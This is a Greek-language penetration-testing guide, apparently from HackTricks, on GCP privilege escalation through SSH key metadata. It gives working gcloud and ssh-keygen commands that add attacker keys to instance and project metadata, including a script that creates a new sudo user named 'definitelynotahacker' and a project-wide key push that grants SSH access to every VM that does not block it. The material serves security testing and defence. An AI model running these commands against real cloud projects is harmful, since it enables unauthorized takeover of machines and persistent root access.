 # GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

## GCP - Προσθήκη Προσαρμοσμένων SSH Μεταδεδομένων

{{#include ../../../../banners/hacktricks-training.md}}

### Τροποποίηση των μεταδεδομένων <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Η τροποποίηση των μεταδεδομένων σε μια παρουσία μπορεί να οδηγήσει σε **σημαντικούς κινδύνους ασφαλείας αν ένας επιτιθέμενος αποκτήσει τις απαραίτητες άδειες**.

#### **Ενσωμάτωση SSH Κλειδιών σε Προσαρμοσμένα Μεταδεδομένα**

Στο GCP, **τα συστήματα Linux** συχνά εκτελούν σενάρια από το [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ένα κρίσιμο στοιχείο αυτού είναι το [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), το οποίο έχει σχεδιαστεί για να **ελέγχει τακτικά** το σημείο μεταδεδομένων της παρουσίας για **ενημερώσεις στα εξουσιοδοτημένα δημόσια SSH κλειδιά**.

Επομένως, αν ένας επιτιθέμενος μπορεί να τροποποιήσει τα προσαρμοσμένα μεταδεδομένα, θα μπορούσε να κάνει το daemon να βρει ένα νέο δημόσιο κλειδί, το οποίο θα επεξεργαστεί και θα **ενσωματωθεί στο τοπικό σύστημα**. Το κλειδί θα προστεθεί στο αρχείο `~/.ssh/authorized_keys` ενός **υπάρχοντος χρήστη ή ενδεχομένως να δημιουργήσει έναν νέο χρήστη με δικαιώματα `sudo`**, ανάλογα με τη μορφή του κλειδιού. Και ο επιτιθέμενος θα είναι σε θέση να παραβιάσει τον υπολογιστή.

#### **Προσθήκη SSH κλειδιού σε υπάρχοντα προνομιούχο χρήστη**

1. **Εξέταση Υπαρχόντων SSH Κλειδιών στην Παρουσία:**

- Εκτελέστε την εντολή για να περιγράψετε την παρουσία και τα μεταδεδομένα της για να εντοπίσετε τα υπάρχοντα SSH κλειδιά. Η σχετική ενότητα στην έξοδο θα είναι κάτω από `metadata`, συγκεκριμένα το κλειδί `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Δώστε προσοχή στη μορφή των SSH κλειδιών: το όνομα χρήστη προηγείται του κλειδιού, χωρισμένο με άνω και κάτω τελεία.

2. **Προετοιμασία Αρχείου Κειμένου για Μεταδεδομένα SSH Κλειδιού:**
- Αποθηκεύστε τις λεπτομέρειες των ονομάτων χρηστών και των αντίστοιχων SSH κλειδιών σε ένα αρχείο κειμένου με όνομα `meta.txt`. Αυτό είναι απαραίτητο για τη διατήρηση των υπαρχόντων κλειδιών ενώ προστίθενται νέα.
3. **Δημιουργία Νέου SSH Κλειδιού για τον Στόχο Χρήστη (`alice` σε αυτό το παράδειγμα):**

- Χρησιμοποιήστε την εντολή `ssh-keygen` για να δημιουργήσετε ένα νέο SSH κλειδί, διασφαλίζοντας ότι το πεδίο σχολίου (`-C`) ταιριάζει με το όνομα του στόχου χρήστη.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Προσθέστε το νέο δημόσιο κλειδί στο `meta.txt`, μιμούμενοι τη μορφή που βρέθηκε στα μεταδεδομένα της παρουσίας.

4. **Ενημέρωση των Μεταδεδομένων SSH Κλειδιού της Παρουσίας:**

- Εφαρμόστε τα ενημερωμένα μεταδεδομένα SSH κλειδιού στην παρουσία χρησιμοποιώντας την εντολή `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Πρόσβαση στην Παρουσία Χρησιμοποιώντας το Νέο SSH Κλειδί:**

- Συνδεθείτε στην παρουσία με SSH χρησιμοποιώντας το νέο κλειδί, αποκτώντας πρόσβαση στο shell στο πλαίσιο του στόχου χρήστη (`alice` σε αυτό το παράδειγμα).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Δημιουργία νέου προνομιούχου χρήστη και προσθήκη SSH κλειδιού**

Αν δεν βρεθεί ενδιαφέρον χρήστης, είναι δυνατόν να δημιουργηθεί ένας νέος που θα του δοθούν δικαιώματα `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH κλειδιά σε επίπεδο έργου <a href="#sshing-around" id="sshing-around"></a>

Είναι δυνατόν να διευρυνθεί η πρόσβαση SSH σε πολλές Εικονικές Μηχανές (VMs) σε ένα περιβάλλον cloud εφαρμόζοντας **SSH κλειδιά σε επίπεδο έργου**. Αυτή η προσέγγιση επιτρέπει την πρόσβαση SSH σε οποιαδήποτε περίπτωση εντός του έργου που δεν έχει ρητά αποκλείσει τα SSH κλειδιά σε επίπεδο έργου. Ακολουθεί ένας συνοπτικός οδηγός:

1. **Εφαρμογή SSH Κλειδιών σε Επίπεδο Έργου:**

- Χρησιμοποιήστε την εντολή `gcloud compute project-info add-metadata` για να προσθέσετε SSH κλειδιά από το `meta.txt` στα μεταδεδομένα του έργου. Αυτή η ενέργεια διασφαλίζει ότι τα SSH κλειδιά αναγνωρίζονται σε όλες τις VMs του έργου, εκτός αν μια VM έχει ενεργοποιημένη την επιλογή "Αποκλεισμός SSH κλειδιών σε επίπεδο έργου".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH σε Περιπτώσεις Χρησιμοποιώντας Κλειδιά σε Επίπεδο Έργου:**
- Με τα SSH κλειδιά σε επίπεδο έργου σε εφαρμογή, μπορείτε να κάνετε SSH σε οποιαδήποτε περίπτωση εντός του έργου. Οι περιπτώσεις που δεν αποκλείουν τα κλειδιά σε επίπεδο έργου θα αποδεχτούν το SSH κλειδί, παρέχοντας πρόσβαση.
- Μια άμεση μέθοδος για να κάνετε SSH σε μια περίπτωση είναι η χρήση της εντολής `gcloud compute ssh [INSTANCE]`. Αυτή η εντολή χρησιμοποιεί το τρέχον όνομα χρήστη σας και τα SSH κλειδιά που έχουν οριστεί σε επίπεδο έργου για να προσπαθήσει να αποκτήσει πρόσβαση.

## Αναφορές

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
